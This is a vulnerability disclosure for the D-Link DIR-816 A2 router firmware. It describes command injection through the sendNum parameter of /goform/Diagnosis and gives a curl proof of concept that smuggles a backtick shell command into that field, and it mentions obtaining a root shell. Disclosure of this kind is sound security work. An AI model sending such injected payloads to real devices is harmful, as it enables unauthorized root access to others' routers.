

# D-link DIR-816 A2_v1.10CNB04.img Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ： [http://tsd.dlink.com.tw/GPL.asp](http://tsd.dlink.com.tw/GPL.asp)

## 1. Affected version


Figure 1 shows the latest firmware Ba of the router

## Vulnerability details



The program passes the content obtained through the sendnum parameter to V12, and then formats V12 into the stack of v10


After that, V10 is brought into the dosystembk function, which has a command injection vulnerability.

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware DIR-816 A2_v1.10CNB04.img
2. Attack with the following POC attacks

```
curl -i -X POST http://192.168.0.1/goform/Diagnosis -d tokenid=xxxx -d 'sendNum=`ls > /tmp/456`'
```


Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell